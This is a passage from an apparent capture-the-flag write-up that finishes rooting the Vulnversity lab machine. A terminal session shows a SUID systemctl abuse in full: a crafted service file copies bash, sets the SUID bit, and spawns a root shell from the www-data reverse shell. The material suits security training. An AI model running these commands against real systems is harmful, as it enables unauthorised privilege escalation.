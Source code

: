 Now let's copy that and paste it into our reverse shell.

```terminal
www-data@vulnuniversity:/home/bill$ TF=$(mktemp).service
www-data@vulnuniversity:/home/bill$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/home/bill$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.wxqqFW7qE1.service to /tmp/tmp.wxqqFW7qE1.service.
www-data@vulnuniversity:/home/bill$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.wxqqFW7qE1.service to /tmp/tmp.wxqqFW7qE1.service.
www-data@vulnuniversity:/home/bill$ ls -l /tmp
total 1028
-rwsr-sr-x 1 root     root     1037528 Jan  5 04:57 bash
drwx------ 3 root     root        4096 Jan  5 04:29 systemd-private-8ac40940bfe640f0801c67ff38799d9a-systemd-timesyncd.service-2tCa9l
-rw------- 1 www-data www-data       0 Jan  5 04:57 tmp.R8OuJkkl6C
-rw-rw-rw- 1 www-data www-data     126 Jan  5 04:57 tmp.R8OuJkkl6C.service
-rw------- 1 www-data www-data       0 Jan  5 04:57 tmp.wxqqFW7qE1
-rw-rw-rw- 1 www-data www-data     126 Jan  5 04:57 tmp.wxqqFW7qE1.service
www-data@vulnuniversity:/home/bill$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3#
```

And just like that, we have rooted Vulnversity machine, hope you have enjoyed and see you in the next hack.
